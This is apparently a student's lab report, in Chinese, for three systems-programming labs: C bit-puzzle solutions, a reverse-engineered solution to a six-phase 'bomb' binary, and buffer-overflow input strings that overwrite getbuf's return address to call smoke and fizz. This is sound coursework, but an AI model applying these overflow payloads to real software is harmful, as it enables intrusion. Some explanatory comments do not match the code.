

<h1><center>实验一、二、三报告</center></h1>

<center>BY  唐志鹏  SA23011068</center>

## 实验一

### bitXor

$$
\begin{align}
x \oplus y &= \overline{x}y + x \overline{y} \\
&= \overline{\overline{\overline{x}y}\cdot \overline{x \overline{y}}} \\
&= \overline{(x+\overline{y})\cdot (\overline{x}+y)} \\
&= \overline{xy+\overline{x}\overline{y}} \\
&= \overline{xy} \cdot \overline{\overline{x}\overline{y}}
\end{align}
$$

```c
int bitXor(int x, int y) {
    return ~(x&y)&~(~x&~y);
}
```

### tmin

对于32位int, Tmin = 0x80000000, 将 1 左移31位即可

```c
int tmin(void) {
    return 1<<31;
}
```

### isTmax

首先，我们知道 Tmax = 0x7FFFFFFF, 不难想到求 Tmax+1 = Tmin = 0x80000000。观察可知，`~(Tmax+1) = Tmax`，只需判断 ~(x+1) 与 x 是否相等即可得出结论。但是，题目要求不能用等于号，于是利用 x^x = 0 的性质进行判断，即 `return !~(x+1)^x`。

然而，-1 = 0xFFFFFFFF。对其进行加1后，该操作数会被截断，高位进位无效，使得结果为0x00000000，每一位刚好也和-1的每一位互补。因此，x = -1的情况是需要特判的。

```c
int isTmax(int x) {
    return !(~(x+1)^x|!(x+1));
}
```

### allOddBits

构造一个32位的奇数位全为1的数 y = 0xAAAAAAAA，将其与 x 进行与运算，如果结果仍为 y, 则 x 的奇数位均为 1.

考虑先构造0xAA, 然后利用移位操作得到 0xAAAAAAAA。

```c
int allOddBits(int x) {
    int y = 0xAA + (0xAA << 8);
    y = y + (y << 16);
    return !((x&y)^y);
}
```

### negate

 `~x + x = -1`

```c
int negate(int x) {
    return ~x+1;
}
```

### isAsciiDigit

- 先检查高26位是否全为0，作为条件1

```c
int flag1 = !(x >> 6);
```

- 再检查中间是否为0011，作为条件2

```c
int flag2 = !(0b11 ^ (x >> 4));
```

- 最后检查末尾4位是否在0000与1001之间， 先得到最后四位数

```c
int y = x & (0xF);
```

- y 在 0 到 9 之间，则 y - 10 < 0，由于符号限制，我们通过移位后判断符号位来作为条件3。由于不能用减法，可以通过`-x = ~x +1`达到目的

```c
int flag3 = (y + ~0xA + 1) >> 31;
int isAsciiDigit(int x) {
    return (!(x >> 6)) & (!(0b11 ^ (x >> 4))) & (((x & (0xF)) + ~0xA + 1) >> 31);
}
```

### conditional

- 先将 x 归整化

  ```c
  a = !x
  ```

- 当 $x=0$ 时， a = 0x00000001, 考虑 ∼a+1=0xFFFFFFFF

- 当 $x≠0$时， a = 0, 考虑 ∼(∼a+1)=0xFFFFFFFF

```c
int conditional(int x, int y, int z) {
    x = ~(!x)+1;
    return (x&z)+(~x&y);
}
```

### isLessOrEqual

- 当 y 与 x 同号时，x - y 不会溢出，因此判断 x - y 的符号即可


- 当 y 与 x 异号时，x - y 可能会溢出，这时只分别判断 y 和 x 的符号即可


```c
int isLessOrEqual(int x, int y) {
    int signx = (x >> 31) & 1;
    int signy = (y >> 31) & 1;
    int flag1 = signx & (!signy);
    int e = signx ^ signy; //同号
    int flag2 = ((!e) & ((x + ~y) >> 31) & 1);
    return flag1 | flag2;
}
```

### logicalNeg

- 当 x = 0 时，-x = 0，两者符号位相同，而当 x ≠ 0 时，-x 与 x 的符号位显然不同，由此就可以解决本题。


- 令 x 与 -x 异或，则若 x = 0, 则异或后的符号位为0，否则为1，取符号位作为结果，则得到的结果刚好与题目中要求的返回值相反。


```c
int logicalNeg(int x) {
    return (((~ x + 1) | x) >> 31) + 1;
}
```

### howManyBits

- 从右到左找出最左边的1在第几位，然后加上一位符号位；如果是负数，则取反做相同操作。
- 找最左边的1采用二分法。每次取高位半部分，如果高位不为0，就将数右移半部分，只关注高位；如果高位为0，则不用右移，只关注低位部分。重复这个过程，知道只有一位即可。

```c
int howManyBits(int x) {
    int flag = x >> 31;
    x = ((~flag) & x) | (flag & (~x));
    int bit_16 = (!!(x >> 16)) << 4; 
    x = x >> bit_16;
    int bit_8 = !!(x>>8)<<3;
    x = x >> bit_8;
    int bit_4 = !!(x >> 4) << 2;
    x = x >> bit_4;
    int bit_2 = !!(x >> 2) << 1;
    x = x >> bit_2;
    int bit_1 = !!(x >> 1);
    x = x >> bit_1;
    int bit_0 = x;
    return bit_16+bit_8+bit_4+bit_2+bit_1+bit_0+1;
}
```

### floatScale2

- 分几种情况：
  - NaN，即 exp=0xFF 的情况，直接返回 uf 即可；
  - 非规格化数，即 exp=0 且 frac!=0 的情况，直接将 frac 左移一位即可；
  - 0，即 exp=0 且 frac=0 的情况，用上述做法即可；
  - 规格化数，直接 exp++ 即可。

```c
unsigned floatScale2(unsigned uf) {
    unsigned s = (uf >> 31) & 0x1;
    unsigned exp = (uf >> 23) & 0xFF;
    unsigned frac = (uf & 0x7FFFFF);
    //NaN
    if(exp == 0xFF) 
        return uf;
    //
    else if(exp == 0){
        frac <<= 1;
        return (s << 31) | (exp << 23) | frac;
    }
    //else
    exp++;
    return (s << 31) | (exp << 23) | frac;

}
```

### floatFloat2Int

- 分几种情况：
  - exp>=31，表示数字超过 int 表示范围，返回 0x80000000u；
  - exp<0，表示数字小于 1，取整后返回 0；
  - 0<=exp<=23，则 frac 的一部分仍然是小数部分，需要右移舍去，再将更新后的 frac 最左端补 1；
  - 23<exp<31，则 frac 全部都为整数部分，并且还需要左移补 0，再将更新后的 frac 最左端补 1。

```c
int floatFloat2Int(unsigned uf) {
    unsigned s = (uf >> 31) & 0x1;
    unsigned exp = (uf >> 23) & 0xFF;
    unsigned frac = (uf & 0x7FFFFF);
    int E = exp - 127;
    frac = frac | (1 << 23);
    if(E < 0) return 0;
    else if(E >= 31) return 0x1 << 31;
    else{
        if(E<23) {
            frac>>=(23 - E);
        }else{
            frac <<= (E - 23);
        }
    }
    if (s)
        return ~frac + 1;
    return frac;
}
```

### floatPower2

- 分几种情况：
  - x>127，超出规格化表示范围，返回 +INF；
  - x<-148，过小，返回 0；
  - -126<x<126，规格化数，直接令 exp=x+127，frac=0 后返回；
  - -148<=x<=-127，非规格化数，直接令 frac=1<<(x+148)，exp=0 后返回。

```c
unsigned floatPower2(int x) {
    if(x < -149)
        return 0;
    else if(x < -126)
        return 1 << (x + 149);
    else if(x <= 127)
        return (x + 127) << 23;
    else
        return (0xFF) << 23;
}
```

### 实验结果



## 实验二

bomb21

### phase1

- 使用反汇编得到汇编代码

  ```asm
  08048b80 <phase_1>:
   8048b80:	55                   	push   %ebp
   8048b81:	89 e5                	mov    %esp,%ebp
   8048b83:	83 ec 08             	sub    $0x8,%esp
   8048b86:	c7 44 24 04 68 99 04 	movl   $0x8049968,0x4(%esp)
   8048b8d:	08 
   8048b8e:	8b 45 08             	mov    0x8(%ebp),%eax
   8048b91:	89 04 24             	mov    %eax,(%esp)
   8048b94:	e8 0e 05 00 00       	call   80490a7 <strings_not_equal>
   8048b99:	85 c0                	test   %eax,%eax
   8048b9b:	74 05                	je     8048ba2 <phase_1+0x22>
   8048b9d:	e8 cc 0a 00 00       	call   804966e <explode_bomb>
   8048ba2:	c9                   	leave  
   8048ba3:	c3                   	ret    
  ```

- 代码读取了地址 `0x8049968` 的一个字符串，并与另一个字符串进行比较，如果相同则跳转；不相同则调用 `explode_bomb`

- 直接查看地址 `0x8049968` 的值为：`Public speaking is very easy.`

### phase2

- 汇编代码：

  ```asm
  08048ba4 <phase_2>:
   8048ba4:	55                   	push   %ebp
   8048ba5:	89 e5                	mov    %esp,%ebp
   8048ba7:	83 ec 28             	sub    $0x28,%esp
   8048baa:	8d 45 e4             	lea    -0x1c(%ebp),%eax
   8048bad:	89 44 24 04          	mov    %eax,0x4(%esp)
   8048bb1:	8b 45 08             	mov    0x8(%ebp),%eax
   8048bb4:	89 04 24             	mov    %eax,(%esp)
   8048bb7:	e8 58 04 00 00       	call   8049014 <read_six_numbers>
   8048bbc:	c7 45 fc 01 00 00 00 	movl   $0x1,-0x4(%ebp)
   8048bc3:	eb 1e                	jmp    8048be3 <phase_2+0x3f>
   8048bc5:	8b 45 fc             	mov    -0x4(%ebp),%eax
   8048bc8:	8b 54 85 e4          	mov    -0x1c(%ebp,%eax,4),%edx
   8048bcc:	8b 45 fc             	mov    -0x4(%ebp),%eax
   8048bcf:	48                   	dec    %eax
   8048bd0:	8b 44 85 e4          	mov    -0x1c(%ebp,%eax,4),%eax
   8048bd4:	83 c0 05             	add    $0x5,%eax
   8048bd7:	39 c2                	cmp    %eax,%edx
   8048bd9:	74 05                	je     8048be0 <phase_2+0x3c>
   8048bdb:	e8 8e 0a 00 00       	call   804966e <explode_bomb>
   8048be0:	ff 45 fc             	incl   -0x4(%ebp)
   8048be3:	83 7d fc 05          	cmpl   $0x5,-0x4(%ebp)
   8048be7:	7e dc                	jle    8048bc5 <phase_2+0x21>
   8048be9:	c9                   	leave  
   8048bea:	c3                   	ret    
  ```

- 先读取 6 个数字，然后进入循环，循环变量为 `%ebp-0x4` 处的值，且从 1 开始，循环 5 次

- 设循环变量为 `i`，循环体中每次都会比较 `mem[%ebp - 0x1c + 4 * i]` 和 `mem[%ebp - 0x1c + 4 * (i - 1)] + 5`，如果不相等，则调用 `explode_bomb` 函数；如果相等，则循环变量加 1 ，继续循环

- 因此输入的六个数字（记为数组 `a[]`）需要满足 `a[i-1] + 5 == a[i]`

- 答案可以是 `0 5 10 15 20 25`

### phase3

- 汇编代码：

  ```asm
  08048beb <phase_3>:
   8048beb:	55                   	push   %ebp
   8048bec:	89 e5                	mov    %esp,%ebp
   8048bee:	83 ec 28             	sub    $0x28,%esp
   8048bf1:	c7 45 f8 00 00 00 00 	movl   $0x0,-0x8(%ebp)
   8048bf8:	c7 45 fc 00 00 00 00 	movl   $0x0,-0x4(%ebp)
   8048bff:	8d 45 f0             	lea    -0x10(%ebp),%eax
   8048c02:	89 44 24 0c          	mov    %eax,0xc(%esp)
   8048c06:	8d 45 f4             	lea    -0xc(%ebp),%eax
   8048c09:	89 44 24 08          	mov    %eax,0x8(%esp)
   8048c0d:	c7 44 24 04 86 99 04 	movl   $0x8049986,0x4(%esp)
   8048c14:	08 
   8048c15:	8b 45 08             	mov    0x8(%ebp),%eax
   8048c18:	89 04 24             	mov    %eax,(%esp)
   8048c1b:	e8 48 fc ff ff       	call   8048868 <sscanf@plt>
   8048c20:	89 45 fc             	mov    %eax,-0x4(%ebp)
   8048c23:	83 7d fc 01          	cmpl   $0x1,-0x4(%ebp)
   8048c27:	7f 05                	jg     8048c2e <phase_3+0x43>
   8048c29:	e8 40 0a 00 00       	call   804966e <explode_bomb>
   8048c2e:	8b 45 f4             	mov    -0xc(%ebp),%eax
   8048c31:	89 45 ec             	mov    %eax,-0x14(%ebp)
   8048c34:	83 7d ec 07          	cmpl   $0x7,-0x14(%ebp)
   8048c38:	77 43                	ja     8048c7d <phase_3+0x92>
   8048c3a:	8b 55 ec             	mov    -0x14(%ebp),%edx
   8048c3d:	8b 04 95 8c 99 04 08 	mov    0x804998c(,%edx,4),%eax
   8048c44:	ff e0                	jmp    *%eax
   8048c46:	81 45 f8 82 03 00 00 	addl   $0x382,-0x8(%ebp)
   8048c4d:	83 6d f8 49          	subl   $0x49,-0x8(%ebp)
   8048c51:	81 45 f8 88 00 00 00 	addl   $0x88,-0x8(%ebp)
   8048c58:	81 6d f8 93 01 00 00 	subl   $0x193,-0x8(%ebp)
   8048c5f:	81 45 f8 d1 00 00 00 	addl   $0xd1,-0x8(%ebp)
   8048c66:	81 6d f8 be 03 00 00 	subl   $0x3be,-0x8(%ebp)
   8048c6d:	81 45 f8 be 03 00 00 	addl   $0x3be,-0x8(%ebp)
   8048c74:	81 6d f8 0b 03 00 00 	subl   $0x30b,-0x8(%ebp)
   8048c7b:	eb 05                	jmp    8048c82 <phase_3+0x97>
   8048c7d:	e8 ec 09 00 00       	call   804966e <explode_bomb>
   8048c82:	8b 45 f4             	mov    -0xc(%ebp),%eax
   8048c85:	83 f8 05             	cmp    $0x5,%eax
   8048c88:	7f 08                	jg     8048c92 <phase_3+0xa7>
   8048c8a:	8b 45 f0             	mov    -0x10(%ebp),%eax
   8048c8d:	39 45 f8             	cmp    %eax,-0x8(%ebp)
   8048c90:	74 05                	je     8048c97 <phase_3+0xac>
   8048c92:	e8 d7 09 00 00       	call   804966e <explode_bomb>
   8048c97:	c9                   	leave  
   8048c98:	c3                   	ret    
  ```

- 首先调用类似 `scanf`  的函数，且将 `0x8049986` 处的值作为输入，查看该值为 `"%d %d"`，因此，该函数是将输入的字符串格式化为两个整数

- 然后将第一个数与 `0x7` 进行比较，如果大于 `0x7` ，则调用 `explode_bomd`；否则，继续执行

- 然后会无条件跳转至 `0x8049986 + 4 * %edx`，这里 `%edx` 中存储的是第一个数。接下来会进入一系列针对 `-0x8(%ebp)` 的运算

- 最后会将运算结果与第二个数进行比较，如果不相等，则调用 `explode_bomd`；否则，继续执行

- 还将第一个数与 `0x5` 进行比较，如果大于 `0x5` ，则调用 `explode_bomd`；否则，继续执行

- 因此第一个数必须小于等于 `0x5`，不妨让第一个数等于 5，第二个数在相应位置开始计算 `0x0 - 0x3be + 0x3be - 0x30b = -779`

- 所以，答案可以是 `5 -779`

### phase4

- 汇编代码：

  ```asm
  08048ccd <phase_4>:
   8048ccd:	55                   	push   %ebp
   8048cce:	89 e5                	mov    %esp,%ebp
   8048cd0:	83 ec 28             	sub    $0x28,%esp
   8048cd3:	8d 45 f4             	lea    -0xc(%ebp),%eax
   8048cd6:	89 44 24 08          	mov    %eax,0x8(%esp)
   8048cda:	c7 44 24 04 ac 99 04 	movl   $0x80499ac,0x4(%esp)
   8048ce1:	08 
   8048ce2:	8b 45 08             	mov    0x8(%ebp),%eax
   8048ce5:	89 04 24             	mov    %eax,(%esp)
   8048ce8:	e8 7b fb ff ff       	call   8048868 <sscanf@plt>
   8048ced:	89 45 fc             	mov    %eax,-0x4(%ebp)
   8048cf0:	83 7d fc 01          	cmpl   $0x1,-0x4(%ebp)
   8048cf4:	75 07                	jne    8048cfd <phase_4+0x30>
   8048cf6:	8b 45 f4             	mov    -0xc(%ebp),%eax
   8048cf9:	85 c0                	test   %eax,%eax
   8048cfb:	7f 05                	jg     8048d02 <phase_4+0x35>
   8048cfd:	e8 6c 09 00 00       	call   804966e <explode_bomb>
   8048d02:	8b 45 f4             	mov    -0xc(%ebp),%eax
   8048d05:	89 04 24             	mov    %eax,(%esp)
   8048d08:	e8 8c ff ff ff       	call   8048c99 <func4>
   8048d0d:	89 45 f8             	mov    %eax,-0x8(%ebp)
   8048d10:	81 7d f8 61 09 00 00 	cmpl   $0x961,-0x8(%ebp)
   8048d17:	74 05                	je     8048d1e <phase_4+0x51>
   8048d19:	e8 50 09 00 00       	call   804966e <explode_bomb>
   8048d1e:	c9                   	leave  
   8048d1f:	c3                   	ret    
  ```

- 与 phase3 相同，先调用了类似 `scanf` 的函数来格式化输入，格式为 `"%d"`，因此输入的字符串是一个整数

- 然后检测输入整数的符号，如果不大于0，则调用 `explode_bomd`；否则，继续正常执行。因此，输入是正数

- 然后将输入的整数作为函数 `func4` 的参数，调用 `func4`，继续查看 `func4` 的汇编代码

  ```asm
  08048c99 <func4>:
   8048c99:	55                   	push   %ebp
   8048c9a:	89 e5                	mov    %esp,%ebp
   8048c9c:	83 ec 08             	sub    $0x8,%esp
   8048c9f:	83 7d 08 00          	cmpl   $0x0,0x8(%ebp)
   8048ca3:	7f 09                	jg     8048cae <func4+0x15>
   8048ca5:	c7 45 fc 01 00 00 00 	movl   $0x1,-0x4(%ebp)
   8048cac:	eb 1a                	jmp    8048cc8 <func4+0x2f>
   8048cae:	8b 45 08             	mov    0x8(%ebp),%eax
   8048cb1:	48                   	dec    %eax
   8048cb2:	89 04 24             	mov    %eax,(%esp)
   8048cb5:	e8 df ff ff ff       	call   8048c99 <func4>
   8048cba:	89 c2                	mov    %eax,%edx
   8048cbc:	89 d0                	mov    %edx,%eax
   8048cbe:	c1 e0 03             	shl    $0x3,%eax
   8048cc1:	89 c1                	mov    %eax,%ecx
   8048cc3:	29 d1                	sub    %edx,%ecx
   8048cc5:	89 4d fc             	mov    %ecx,-0x4(%ebp)
   8048cc8:	8b 45 fc             	mov    -0x4(%ebp),%eax
   8048ccb:	c9                   	leave  
   8048ccc:	c3                   	ret    
  ```

  进一步将其翻译为 C 语言：

  ```C
  int func4(int A) {
      if (A > 0) {
          int B = A - 1;
          int C = func4(B);
          return 7 * C;
      }
      else
          return 1;
  }
  ```

  因此，该函数就是在计算 $7^{A}$

- 最后，将 `func4` 的返回值与 `0x961 = 2401`  进行比较，如果不相等，则调用 `explode_bomd`；否则，继续执行

- 因此，答案为 $\log_7 2401 = 4$

### phase5

- 汇编代码：

  ```asm
  08048d20 <phase_5>:
   8048d20:	55                   	push   %ebp
   8048d21:	89 e5                	mov    %esp,%ebp
   8048d23:	83 ec 18             	sub    $0x18,%esp
   8048d26:	8b 45 08             	mov    0x8(%ebp),%eax
   8048d29:	89 04 24             	mov    %eax,(%esp)
   8048d2c:	e8 4c 03 00 00       	call   804907d <string_length>
   8048d31:	89 45 fc             	mov    %eax,-0x4(%ebp)
   8048d34:	83 7d fc 06          	cmpl   $0x6,-0x4(%ebp)
   8048d38:	74 05                	je     8048d3f <phase_5+0x1f>
   8048d3a:	e8 2f 09 00 00       	call   804966e <explode_bomb>
   8048d3f:	c7 45 f8 00 00 00 00 	movl   $0x0,-0x8(%ebp)
   8048d46:	eb 20                	jmp    8048d68 <phase_5+0x48>
   8048d48:	8b 55 f8             	mov    -0x8(%ebp),%edx
   8048d4b:	8b 45 f8             	mov    -0x8(%ebp),%eax
   8048d4e:	03 45 08             	add    0x8(%ebp),%eax
   8048d51:	0f b6 00             	movzbl (%eax),%eax
   8048d54:	0f be c0             	movsbl %al,%eax
   8048d57:	83 e0 0f             	and    $0xf,%eax
   8048d5a:	0f b6 80 c0 a5 04 08 	movzbl 0x804a5c0(%eax),%eax
   8048d61:	88 44 15 f1          	mov    %al,-0xf(%ebp,%edx,1)
   8048d65:	ff 45 f8             	incl   -0x8(%ebp)
   8048d68:	83 7d f8 05          	cmpl   $0x5,-0x8(%ebp)
   8048d6c:	7e da                	jle    8048d48 <phase_5+0x28>
   8048d6e:	c6 45 f7 00          	movb   $0x0,-0x9(%ebp)
   8048d72:	c7 44 24 04 af 99 04 	movl   $0x80499af,0x4(%esp)
   8048d79:	08 
   8048d7a:	8d 45 f1             	lea    -0xf(%ebp),%eax
   8048d7d:	89 04 24             	mov    %eax,(%esp)
   8048d80:	e8 22 03 00 00       	call   80490a7 <strings_not_equal>
   8048d85:	85 c0                	test   %eax,%eax
   8048d87:	74 05                	je     8048d8e <phase_5+0x6e>
   8048d89:	e8 e0 08 00 00       	call   804966e <explode_bomb>
   8048d8e:	c9                   	leave  
   8048d8f:	c3                   	ret    
  ```

- 首先，根据 `string_lenght`  部分，输入是长度为 6 的字符串

- 然后对字符串里的每一个字符 `c`，索引得到一个新的字符 `mem[0x804a5c0 + c & 0xf]`，即：以 `c` 低四位 bit 作为索引，然后这些字符形成一个新的字符串

- 最后，将新的字符串与 `0x80499af` 处的字符串进行比较，查看该字符串为 `giants`

- 查看地址 `0x804a5c0`  的情况：`isrveawhobpnutfg\264\003`

- 因此，索引为 `15 0 5 11 13 1   `，对应的字符的低四位 bit 只要与其对应相同即可

- 答案可以为 `OPEKMA`

### phase6

- 汇编代码：

  ```asm
  08048d90 <phase_6>:
   8048d90:	55                   	push   %ebp
   8048d91:	89 e5                	mov    %esp,%ebp
   8048d93:	83 ec 48             	sub    $0x48,%esp
   8048d96:	c7 45 f0 0c a6 04 08 	movl   $0x804a60c,-0x10(%ebp)
   8048d9d:	8d 45 d8             	lea    -0x28(%ebp),%eax
   8048da0:	89 44 24 04          	mov    %eax,0x4(%esp)
   8048da4:	8b 45 08             	mov    0x8(%ebp),%eax
   8048da7:	89 04 24             	mov    %eax,(%esp)
   8048daa:	e8 65 02 00 00       	call   8049014 <read_six_numbers>
   8048daf:	c7 45 f8 00 00 00 00 	movl   $0x0,-0x8(%ebp)
   8048db6:	eb 48                	jmp    8048e00 <phase_6+0x70>
   8048db8:	8b 45 f8             	mov    -0x8(%ebp),%eax
   8048dbb:	8b 44 85 d8          	mov    -0x28(%ebp,%eax,4),%eax
   8048dbf:	85 c0                	test   %eax,%eax
   8048dc1:	7e 0c                	jle    8048dcf <phase_6+0x3f>
   8048dc3:	8b 45 f8             	mov    -0x8(%ebp),%eax
   8048dc6:	8b 44 85 d8          	mov    -0x28(%ebp,%eax,4),%eax
   8048dca:	83 f8 06             	cmp    $0x6,%eax
   8048dcd:	7e 05                	jle    8048dd4 <phase_6+0x44>
   8048dcf:	e8 9a 08 00 00       	call   804966e <explode_bomb>
   8048dd4:	8b 45 f8             	mov    -0x8(%ebp),%eax
   8048dd7:	40                   	inc    %eax
   8048dd8:	89 45 fc             	mov    %eax,-0x4(%ebp)
   8048ddb:	eb 1a                	jmp    8048df7 <phase_6+0x67>
   8048ddd:	8b 45 f8             	mov    -0x8(%ebp),%eax
   8048de0:	8b 54 85 d8          	mov    -0x28(%ebp,%eax,4),%edx
   8048de4:	8b 45 fc             	mov    -0x4(%ebp),%eax
   8048de7:	8b 44 85 d8          	mov    -0x28(%ebp,%eax,4),%eax
   8048deb:	39 c2                	cmp    %eax,%edx
   8048ded:	75 05                	jne    8048df4 <phase_6+0x64>
   8048def:	e8 7a 08 00 00       	call   804966e <explode_bomb>
   8048df4:	ff 45 fc             	incl   -0x4(%ebp)
   8048df7:	83 7d fc 05          	cmpl   $0x5,-0x4(%ebp)
   8048dfb:	7e e0                	jle    8048ddd <phase_6+0x4d>
   8048dfd:	ff 45 f8             	incl   -0x8(%ebp)
   8048e00:	83 7d f8 05          	cmpl   $0x5,-0x8(%ebp)
   8048e04:	7e b2                	jle    8048db8 <phase_6+0x28>
   8048e06:	c7 45 f8 00 00 00 00 	movl   $0x0,-0x8(%ebp)
   8048e0d:	eb 34                	jmp    8048e43 <phase_6+0xb3>
   8048e0f:	8b 45 f0             	mov    -0x10(%ebp),%eax
   8048e12:	89 45 f4             	mov    %eax,-0xc(%ebp)
   8048e15:	c7 45 fc 01 00 00 00 	movl   $0x1,-0x4(%ebp)
   8048e1c:	eb 0c                	jmp    8048e2a <phase_6+0x9a>
   8048e1e:	8b 45 f4             	mov    -0xc(%ebp),%eax
   8048e21:	8b 40 08             	mov    0x8(%eax),%eax
   8048e24:	89 45 f4             	mov    %eax,-0xc(%ebp)
   8048e27:	ff 45 fc             	incl   -0x4(%ebp)
   8048e2a:	8b 45 f8             	mov    -0x8(%ebp),%eax
   8048e2d:	8b 44 85 d8          	mov    -0x28(%ebp,%eax,4),%eax
   8048e31:	3b 45 fc             	cmp    -0x4(%ebp),%eax
   8048e34:	7f e8                	jg     8048e1e <phase_6+0x8e>
   8048e36:	8b 55 f8             	mov    -0x8(%ebp),%edx
   8048e39:	8b 45 f4             	mov    -0xc(%ebp),%eax
   8048e3c:	89 44 95 c0          	mov    %eax,-0x40(%ebp,%edx,4)
   8048e40:	ff 45 f8             	incl   -0x8(%ebp)
   8048e43:	83 7d f8 05          	cmpl   $0x5,-0x8(%ebp)
   8048e47:	7e c6                	jle    8048e0f <phase_6+0x7f>
   8048e49:	8b 45 c0             	mov    -0x40(%ebp),%eax
   8048e4c:	89 45 f0             	mov    %eax,-0x10(%ebp)
   8048e4f:	8b 45 f0             	mov    -0x10(%ebp),%eax
   8048e52:	89 45 f4             	mov    %eax,-0xc(%ebp)
   8048e55:	c7 45 f8 01 00 00 00 	movl   $0x1,-0x8(%ebp)
   8048e5c:	eb 19                	jmp    8048e77 <phase_6+0xe7>
   8048e5e:	8b 45 f8             	mov    -0x8(%ebp),%eax
   8048e61:	8b 54 85 c0          	mov    -0x40(%ebp,%eax,4),%edx
   8048e65:	8b 45 f4             	mov    -0xc(%ebp),%eax
   8048e68:	89 50 08             	mov    %edx,0x8(%eax)
   8048e6b:	8b 45 f4             	mov    -0xc(%ebp),%eax
   8048e6e:	8b 40 08             	mov    0x8(%eax),%eax
   8048e71:	89 45 f4             	mov    %eax,-0xc(%ebp)
   8048e74:	ff 45 f8             	incl   -0x8(%ebp)
   8048e77:	83 7d f8 05          	cmpl   $0x5,-0x8(%ebp)
   8048e7b:	7e e1                	jle    8048e5e <phase_6+0xce>
   8048e7d:	8b 45 f4             	mov    -0xc(%ebp),%eax
   8048e80:	c7 40 08 00 00 00 00 	movl   $0x0,0x8(%eax)
   8048e87:	8b 45 f0             	mov    -0x10(%ebp),%eax
   8048e8a:	89 45 f4             	mov    %eax,-0xc(%ebp)
   8048e8d:	c7 45 f8 00 00 00 00 	movl   $0x0,-0x8(%ebp)
   8048e94:	eb 22                	jmp    8048eb8 <phase_6+0x128>
   8048e96:	8b 45 f4             	mov    -0xc(%ebp),%eax
   8048e99:	8b 10                	mov    (%eax),%edx
   8048e9b:	8b 45 f4             	mov    -0xc(%ebp),%eax
   8048e9e:	8b 40 08             	mov    0x8(%eax),%eax
   8048ea1:	8b 00                	mov    (%eax),%eax
   8048ea3:	39 c2                	cmp    %eax,%edx
   8048ea5:	7d 05                	jge    8048eac <phase_6+0x11c>
   8048ea7:	e8 c2 07 00 00       	call   804966e <explode_bomb>
   8048eac:	8b 45 f4             	mov    -0xc(%ebp),%eax
   8048eaf:	8b 40 08             	mov    0x8(%eax),%eax
   8048eb2:	89 45 f4             	mov    %eax,-0xc(%ebp)
   8048eb5:	ff 45 f8             	incl   -0x8(%ebp)
   8048eb8:	83 7d f8 04          	cmpl   $0x4,-0x8(%ebp)
   8048ebc:	7e d8                	jle    8048e96 <phase_6+0x106>
   8048ebe:	c9                   	leave  
   8048ebf:	c3                   	ret    
  ```

- 首先，从函数调用 `read_six_numbers` 可以看出输入是六个整数

- 然后，要求这些整数大于 0 小于等于 6，且两两不相等

- 后续的几个循环的大致意思为：以这些整数为索引，找到链表上对应的元素，构成的新链表正好是数据按升序排列的链表，因此我们查看原链表的情况即可。链表每个元素占 12 字节，含义为 `(data, node_number, next)`，查看链表（直接以 `data` 表示节点）：`928 -> 627 -> 233 -> 958 -> 57 -> 948`

- 因此，答案为 `4 6 1 2 3 5`

### 实验结果


## 实验三

- 反汇编，并定位到 `getbuf` 函数

  ```asm
  08048fe0 <getbuf>:
   8048fe0:	55                   	push   %ebp
   8048fe1:	89 e5                	mov    %esp,%ebp
   8048fe3:	83 ec 18             	sub    $0x18,%esp
   8048fe6:	8d 45 f4             	lea    -0xc(%ebp),%eax
   8048fe9:	89 04 24             	mov    %eax,(%esp)
   8048fec:	e8 6f fe ff ff       	call   8048e60 <Gets>
   8048ff1:	b8 01 00 00 00       	mov    $0x1,%eax
   8048ff6:	c9                   	leave  
   8048ff7:	c3                   	ret    
   8048ff8:	90                   	nop
   8048ff9:	8d b4 26 00 00 00 00 	lea    0x0(%esi,%eiz,1),%esi
  ```

- 数组 `buf` 的长度为 `0xc`，因此，地址 `-(0xc + 0x8)%ebp` 存储的是函数返回地址，只需要将该地址修改为想要跳转的函数地址即可

### level0

- 根据反汇编代码，`smoke` 函数的地址为 `0x08048e20`

- 因此，可以将 `buf` 设为：`48 48 48 48 48 48 48 48 48 48 48 48 48 48 48 48 20 8e 04 08 00 00 00 00`

- 结果：

  

### level1

- `fizz` 函数的地址为 `0x08048dc0`

- 并且我们需要设置参数的值为 `cookie`，由于地址 `-(0xc + 0x8)%ebp` 存储 `%esp` 指针的值，所以参数在地址 `-(0xc + 0x16)%ebp` 传入

- 因此，可以将 `buf` 设为：`48 48 48 48 48 48 48 48 48 48 48 48 48 48 48 48 c0 8d 04 08 00 00 00 00 28 02 3b 42`

- 结果：

  